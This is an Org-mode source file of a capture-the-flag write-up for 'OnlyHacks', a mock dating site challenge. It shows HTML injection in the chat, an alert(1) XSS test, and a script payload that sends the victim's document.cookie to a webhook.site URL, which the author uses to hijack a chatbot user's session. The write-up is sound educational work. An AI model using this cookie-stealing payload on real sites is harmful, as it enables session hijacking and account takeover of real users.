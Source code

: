 :PROPERTIES:
:ID:       e2b8bf80-7dc5-4333-a787-3986f7d3cca7
:END:
#+TITLE: OnlyHacks
#+AUTHOR: AsmArtisan256
#+DATE: 15-02-2025

#+OPTIONS: html-style:nil
#+OPTIONS: html-scripts:nil

#+OPTIONS: author:nil
#+OPTIONS: email:nil
#+OPTIONS: date:t
#+OPTIONS: toc:nil

#+PROPERTY: header-args :eval no

#+HTML_HEAD: <link rel="stylesheet" type="text/css" href="/style.css"/>

#+EXPORT_FILE_NAME: onlyhacks


This is a website that asks for login credentials right away. Since I don't have
an account, I guess I have to register by clicking on the ~Sign Up Now~ button.


#+DOWNLOADED: screenshot @ 2025-02-15 15:41:03
#+attr_org: :width 600px
[[file:writeup-img/2025-02-15_15-41-03_screenshot.png]]

Be warned that you have to actually fill all the fields, including uploading an
image. If you don't, a non-sensical error will occur and you will have to write
it all over again. In my case, I just put random data, except my username. After
registering, you will be presented with an interface that shows you a person and
you have to click on the cross or the heart. I assume the cross is to ignore,
and the heart is to match with the person. I clicked on the heart for everyone,
regardless. After that, I went to the ~Matches~ and I was presented with a message
from Renata. I did spend some time talking to "her", because I was testing if it
was some kind of AI or just some script sending messages from a set number of
messages. It seems it was an AI, because it did react to thing I said, although
it was a bit repetitive, always asking for donations... makes sense though!


#+DOWNLOADED: screenshot @ 2025-02-15 15:48:56
#+attr_org: :width 600px
[[file:writeup-img/2025-02-15_15-48-56_screenshot.png]]

This being a user input... can I send HTML? Let's try something like ~This is
<b>bold</b> and this is <i>italic</i>.~:


#+DOWNLOADED: screenshot @ 2025-02-15 15:57:57
#+attr_org: :width 600px
[[file:writeup-img/2025-02-15_15-57-57_screenshot.png]]

So it's seems I can inject HTML. I tried something like
~<script>alert(1);</script>~ and it also works! Since users do have a session
cookie, I guess this could be an opportunity to hijack Renata's session. To do
this, I will use [[http://webhook.site/]] to inject ~Javascript~ to get the cookie, like this:

#+BEGIN_SRC html
<script type=“text/javascript”>
  document.location="https://webhook.site/4e02f6ce-2e64-4ab5-86a0-b529ded6e6db/?c="+document.cookie;
</script>
#+END_SRC

And it was successful! After that, I just copied the session cookie, replaced it
using the browser developer tools and refreshed the page. You can see that now I
am in Renata's session, talking to myself.


#+DOWNLOADED: screenshot @ 2025-02-15 16:21:31
#+attr_org: :width 600px
[[file:writeup-img/2025-02-15_16-21-31_screenshot.png]]

Also, the flag is in another conversation with other user! :-)


* FOOTER                                                                                              :ignore:
:PROPERTIES:
:clearpage: t
:END:
#+BEGIN_EXPORT html
<hr>
<footer>
  <div class="container">
    <ul class="menu-list">
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/index.html">Home</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/articles/articles.html">Articles</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a href="/writeups/writeups.html">Write-Ups</a>
      </li>
      <li class="menu-list-item flex-basis-100-margin fit-content">
        <a class="inactive-link">15-02-2025</a>
      </li>
    </ul>
  </div>
</footer>
#+END_EXPORT

